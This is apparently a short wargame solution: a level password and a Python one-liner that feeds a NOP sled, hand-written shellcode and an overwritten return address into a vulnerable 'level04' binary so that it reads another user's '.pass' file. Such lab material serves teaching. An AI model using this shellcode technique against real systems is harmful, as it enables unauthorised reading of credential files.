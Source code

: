 > Password: kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf


python -c 'print ("\x90" * 48 + "\xb8\x05\x00\x00\x00\xbb\xb7\xd6\xff\xff\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\xb9\xb7\xd6\xff\xff\xba\x28\x00\x00\x00\xcd\x80\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xb9\xb7\xd6\xff\xff\xba\x28\x00\x00\x00\xcd\x80" + "/////////////////////home/users/level05/.pass" + "\x00" * 8 + "\x50\xd6\xff\xff"),' | perl -pe 'chomp if eof' | ./level04
